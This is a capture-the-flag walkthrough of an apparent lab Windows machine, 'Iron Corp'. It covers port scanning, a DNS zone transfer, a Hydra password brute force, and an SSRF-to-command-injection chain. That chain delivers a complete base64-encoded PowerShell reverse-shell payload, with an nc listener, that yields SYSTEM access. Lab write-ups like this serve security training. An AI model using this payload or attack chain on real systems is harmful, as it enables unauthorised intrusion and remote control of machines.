


# Iron Corp

### Tyopology:

 _Windows_

---

The box itself says to add a domain name __"ironcorp.me"__ to __"/etc/hosts"__

We started by enumerating the target ports:
```bash
nmap -sC -sV -p- --min-rate=1000 10.10.198.43 -Pn

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-8VMBKF3G815
| Not valid before: 2024-01-08T17:16:53
|_Not valid after:  2024-07-09T17:16:53
| rdp-ntlm-info: 
|   Target_Name: WIN-8VMBKF3G815
|   NetBIOS_Domain_Name: WIN-8VMBKF3G815
|   NetBIOS_Computer_Name: WIN-8VMBKF3G815
|   DNS_Domain_Name: WIN-8VMBKF3G815
|   DNS_Computer_Name: WIN-8VMBKF3G815
|   Product_Version: 10.0.14393
|_  System_Time: 2024-01-09T17:20:53+00:00
|_ssl-date: 2024-01-09T17:21:01+00:00; +4s from scanner time.
8080/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Dashtreme Admin - Free Dashboard for Bootstrap 4 by Codervent
|_http-server-header: Microsoft-IIS/10.0
11025/tcp open  http          Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.4.4)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.4.4
|_http-title: Coming Soon - Start Bootstrap Theme
49667/tcp open  msrpc         Microsoft Windows RPC
```

Summarize:

- _53 port simple DNS_

- _135 port RPC_

- _3389 port RDP, it tells another name WIN-8VMBKF3G815 to add at /etc/hosts_

- _8080 port http IIS webserver it's a Admin dashboard_

- _11025 port another HTTP but this time it's an Apache webserver_

First step we take a look at the two webservers:

### 8080:



It's an admin panel but after looking around it's all fake

### 11025: 


Also this time the website is fake

At this point I tried __"rpcdump.py"__ but it didn't give valid results, the last port is 53 so We can tried some tricks with __"dig"__ command such as: ANY, axfr...
```bash
dig any ironcorp.me @10.10.198.43

;; ANSWER SECTION:
ironcorp.me.            3600    IN      NS      win-8vmbkf3g815.
ironcorp.me.            3600    IN      SOA     win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600

dig axfr ironcorp.me @10.10.198.43

ironcorp.me.            3600    IN      SOA     win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600
ironcorp.me.            3600    IN      NS      win-8vmbkf3g815.
admin.ironcorp.me.      3600    IN      A       127.0.0.1
internal.ironcorp.me.   3600    IN      A       127.0.0.1
```
It works we can add two new subdomains to /etc/hosts then browse it:

### internal subdomain:

- _port 8080 redirect to the fake admin panel_

- _port 11025 redirect to a page with forbidden access_

### admin subdomain:

- _port 8080 same as before_

- _port 11025 redirect to a login page, we have an username we can try to bruteforce via Hydra_

### Bruteforcing:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 11025 admin.ironcorp.me http-head /

[11025][http-get] host: admin.ironcorp.me   login: admin   password: [REDACTED]
```
we're in, there is only a searchbar we can try with the most common web vuln such as: XSS, SQLI, SSTI, SSRF ecc...

### SSRF and Burpsuite:



SSRF, It works on __"internal.ironcorp.me:8080"__ we can try it on port 11025 indeed the first time return this link __"http://internal.ironcorp.me:11025/nphp?name="__, if we type in this link, the second time it returns a name __"Equinox"__.

The first idea is to do a command execution via this link __"http://internal.ironcorp.me:11025/nphp?name="__ like obtain a revshell

After many attempts with the following steps we can obtain a rev:

Fist open burpsuite and send the reqeust to repeater as in the imeage above, second go to [revshell](https://www.revshells.com/) site, select __"Powershell #3 (base64)"__ insert your ip and port then in the upper right select __"nc"__ as listener so:

listener:
```bash
rlwrap nc -lvnp 4444 
```
payload to copy and paste in repeater:
```
/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2Fname.php%3Fname%3D|powershell%2b-ep%2bbypass%2b-e%2bJABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOAAuADkAOAAuADEANAAzACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```
Notes:
__"%2b"__ is equal to __"\n"__ 

Click Send and we can obtain our revshell as __"SYSTEM"__ user, we can retrieve our first flag in Administrator's desktop

After some time to look around Users folder the only we can't have access is the superadmin one indeed:
```cmd
PS C:\Users> get-acl c:\users\superadmin | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\superadmin
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : BUILTIN\Administrators Deny  FullControl
         S-1-5-21-297466380-2647629429-287235700-1000 Allow  FullControl
Audit  : 
Sddl   : O:SYG:SYD:PAI(D;OICI;FA;;;BA)(A;OICI;FA;;;S-1-5-21-297466380-264762942
         9-287235700-1000)
```
There is a deny but we know that the flag is 100% in desktop and it's called __"root.txt"__ so:
```cmd
type c:\users\superadmin\desktop\root.txt
```
We can submit the last flag.
